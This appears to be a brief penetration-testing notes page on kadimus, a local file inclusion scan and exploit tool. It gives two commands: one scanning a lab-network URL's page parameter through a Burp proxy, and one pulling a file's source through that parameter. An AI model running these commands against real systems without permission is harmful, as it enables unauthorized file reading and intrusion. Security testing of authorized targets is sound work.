 ```yaml
---
title: "kadimus"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

## general scan, through burp and save results

```
kadimus -u http://192.168.56.103/?page=login --proxy http://127.0.0.1:8080 --output outputfile
```

## get file

```
kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "login" --proxy http://127.0.0.1:8080
``` 